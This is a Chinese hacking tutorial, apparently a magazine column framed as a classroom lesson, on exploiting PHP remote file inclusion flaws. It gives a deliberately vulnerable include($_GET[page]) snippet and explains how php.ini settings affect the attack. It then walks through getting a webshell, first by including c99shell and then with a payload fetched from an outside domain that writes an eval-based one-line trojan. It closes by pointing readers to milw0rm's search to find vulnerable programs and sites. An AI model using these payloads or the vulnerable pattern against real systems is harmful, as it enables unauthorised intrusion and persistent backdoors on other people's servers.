txcbg 刚讲完什么是远程文件包含漏洞，就有一菜鸟站起来问道：“老师，既然有远程文件包含漏洞，那么有没有本地文件包含漏洞呢？”“这位同学好聪明，当然有了，本地文件包含漏洞也是存在的，它的英文简称是 LFI，也就是 Local File Include。相对于 RFI 漏洞，LFI 漏洞更难以利用。我们今天只介绍 RFI 漏洞，对 LFI 漏洞感兴趣的同学可以下课后到网上查找一下相关资料。”

“下面我先详细地给大家介绍一下 RFI 漏洞，然后再介绍如何通过 RFI 漏洞来拿到 webshell，由于大多数通过 RFI 漏洞得到的 webshell 所在的服务器使用的都是 Linux 系统，最后我还会再简单地介绍一下 Linux 下的提权。”

菜鸟们听到有 webshell 可拿，都很兴奋，但又听到 Linux 系统下的提权时，心里不禁犯了嘀咕，害怕太难自己学不会。txcbg 看出了菜鸟们的担心，就说道：“其实 Linux 系统下的提权并不是那么难，再说我只给大家介绍简单的方法，太难的我也不会，呵呵。话又说回来，学习一些新的、有难度的东西也是好事，总不能停滞不前吧！”

## 一、什么是RFI漏洞

通过上面提到的文件包含漏洞的定义我们可以知道，只有 php 文件才会出现远程文件包含漏洞，在 php 下一般通过 4 个函数来包含文件，它们分别是：include()、require()、include_once()、require_once()。include() 和 require() 函数都是包含并运行指定的文件，这两种结构除了在如何处理失败不同外其它的完全一样，include() 处理失败时产生一个警告，而 require() 则导致一个致命错误。

require_once() 和 include_once() 语句在脚本执行期间包括并运行指定文件，这个行为和 require() 语句类似，唯一的区别是如果该文件中的代码已经被包括了，就不会再次被包括。适用于在脚本执行期间同一个文件有可能被多次包括的情况，以确保它只被包括一次以避免函数重定义、变量重新赋值等问题。

既然包含文件可能存在漏洞，那为什么还要包含文件呢？程序员写程序的时候，不喜欢做同样的事情，也不喜欢把同样的代码（比如一些公用的函数）写几次，于是就把需要公用的代码写在一个单独的文件里，比如 share.php，然后在其它文件中进行包含调用。

在 php 中，我们就是使用上面列举的那几个函数来达到这个目的的，它的工作流程是：如果我们想在 main.php 文件里包含 share.php，就使用 `include("share.php")` 来达到目的，然后就可以使用 share.php 中的函数了。

有的时候我们可能无法确定需要包含哪个文件，就需要引入一个变量来完成引用，来看一段最简单的引用代码：

```php
<?php
include $_GET[page];
?>
```

把上面的代码保存为 123.php，放到支持 php 的 web 环境中，使用类似 `http://127.0.0.1/123.php?page=php.php` 的方式来包含文件，访问这个链接后，123.php 就会包含当前目录下的 php.php 文件，并执行 php.php 中的代码。



图1

成功地执行了 phpinfo() 的函数，说明 php.php 中的代码被执行了。我们再把 php.php 改名为 php.txt，重新访问 **http://127.0.0.1/123.php?page=php.txt**，php.txt 中的代码也被成功地执行了，如图2。再来访问 **http://127.0.0.1/123.php?page=http://127.0.0.1/php.txt**，代码又被执行了，如图3。



图2



图3

## 二、RFI漏洞的利用

本地包含文件是为了避免代码的重复，但代码是死的人是活的，我们并不想让它包含本来要包含的文件，而是让它包含我们指定的文件，通过控制包含文件中的内容我们就可以执行任意 php 代码，这样漏洞也就产生了。

我们来让它包含一个不存在的文件，比如 **http://127.0.0.1/123.php?page=369.txt**，因为当前目录下根本没有 369.txt 这个文件，因此在包含文件时就会出错，给出了两个错误提示，提示 “No such file or directory”，也就是找不到文件或目录，并把网站的绝对路径 “C:\Program Files\Apache Group\Apache2\htdocs” 给暴露了出来，如图4。



图4

说到远程文件包含漏洞就不得不说 php 的配置文件 php.ini 中的 3 个选项，因为这 3 个选项对能否成功利用远程文件包含漏洞的影响实在是太大了。首先来看第一个选项 **open_basedir**，它可以禁止对指定目录以外的文件进行操作，如果启用了这个选项，就不能包含远程的文件了，也就不存在远程文件包含漏洞了，但好消息是默认情况下这个选项是被注释掉的，也就是没有被启用，如图5。

还有两个选项是 **allow_url_fopen** 和 **allow_url_include**。allow_url_fopen 控制是否允许通过 URL 打开文件；allow_url_include 控制是否允许通过 URL 包含文件。只有当 “allow_url_fopen = On” 和 “allow_url_include = On” 同时满足时远程文件包含漏洞才会产生。文中说明在其 PHP Version 5.2.8 环境中默认是 “allow_url_fopen = On”，“allow_url_include = Off”，如图6。



图5



图6

为了本地体验远程文件包含漏洞，必须把你 php.ini 文件中的 “allow_url_include = Off” 改为 “allow_url_include = On”。作者描述其测试中，未修改默认值时访问 **http://127.0.0.1/123.php?page=http://127.0.0.1/php.txt** 总是出现 “URL file-access is disabled in the server configuration” 错误；将 allow_url_include 改为 On 后出现了图3的结果。



图7

讲了这么多，大家一定非常想知道如何通过远程文件包含漏洞来拿 webshell 吧，下面我就来介绍。由于通过远程文件包含我们可以执行任意的 PHP 代码，因此直接包含一个 PHP 大马的代码就可以得到一个 webshell 了，比如我把著名的 PHP 大马 c99shell 的代码保存为 c99.txt，放在网站根目录下，直接访问 `http://127.0.0.1/123.php?page=http://127.0.0.1/c99.txt` 就会得到 webshell 了，如图8。



图8

在这里大家需要注意一点，虽然通过 `http://127.0.0.1/123.php?page=http://127.0.0.1/c99.txt` 得到了一个 webshell，但是这个 webshell 并不存在于存在漏洞的 `http://127.0.0.1/123.php` 的当前目录下，而只是包含并执行了远程文件中的代码。简单地说，就是通过该 URL 并没有在存在漏洞的网站目录下生成真正的 webshell 文件。为了防止网站管理员把远程文件包含漏洞补上后导致我们的 webshell 消失，我们还需要在存在漏洞的网站目录下生成一个实实在在的 webshell 才行。对于通过该方式得到的 webshell 功能完整的话，我们可以利用其上传功能直接上传一个 webshell 到漏洞网站目录下，如图9，可惜的是上传没有成功。



图9

根据我的经验，很多时候通过类似 `http://127.0.0.1/123.php?page=http://127.0.0.1/c99.txt` 这种形式获得的 webshell 都会功能不完整，有的甚至只是显示一个 webshell 的界面，点任何功能都会出现错误提示，比如我在虚拟机里得到的 `http://127.0.0.1/123.php?page=http://127.0.0.1/c99.txt`，在执行 cmd 命令时就会出现如图10所示的错误提示。



图10

如果得到的 webshell 功能不完整，那我们还能在存在漏洞的网站目录下生成 webshell 文件吗？当然可以。既然看到了 webshell 的界面，就说明 PHP 代码已经成功执行了。既然 PHP 代码可以成功执行，那我们就完全可以通过它执行 PHP 代码来在漏洞网站目录下生成 webshell 文件，能够完成这个功能的一种 PHP 代码如下：

```php
<?fputs(fopen("x.php","w"),"<?eval($_POST[x]);?>")?>
```

代码的功能就是在当前目录下生成 x.php，而 x.php 文件的内容就是 PHP 一句话木马的服务端 `<?eval($_POST[x]);?>`。把上面代码保存为 x.txt，访问 `http://xunyuan8.com/test/x.txt`，再让存在远程文件包含漏洞的 123.php 去包含它，访问 `http://127.0.0.1/123.php?page=http://xunyuan8.com/test/x.txt`，显示空白页，如图11，但来到 123.php 所在目录，发现 x.php 已经生成了，如图12。



图11

x.php 的访问地址为 `http://127.0.0.1/x.php`，使用 PHP 一句话木马客户端连接该地址，成功得到了 webshell（连接密码为 x），如图13。如果嫌一句话木马用着不太方便的话，我们还可以通过一句话木马的上传功能再上传一个 PHP 大马上去，如图14。



图12

知道了怎样通过远程文件包含漏洞拿到 webshell，那我们到哪里去寻找存在远程文件包含漏洞的网站呢？要找到存在远程文件包含漏洞的网站，首先就要找到存在远程文件包含漏洞的程序，然后才能去找哪些网站采用了存在漏洞的程序。

# 菜鸟学堂

含漏洞的程序，可以到漏洞公布站点去找，比如著名的 milw0rm，其网站地址为 http://www.milw0rm.com/，打开后如图15，很有个性。







milw0rm 网站上公布的漏洞很多，并不都是远程文件包含漏洞。为了更好地找到存在远程文件包含漏洞的程序，我们需要借助网站提供的搜索功能，点击图中的“search”就来到了搜索页面 http://www.milw0rm.com/search.php，输入搜索关键词“remote file inclu”，点击“Submit”按钮后就会按漏洞公布时间顺序列出存在远程文件包含漏洞的程序，如图16。

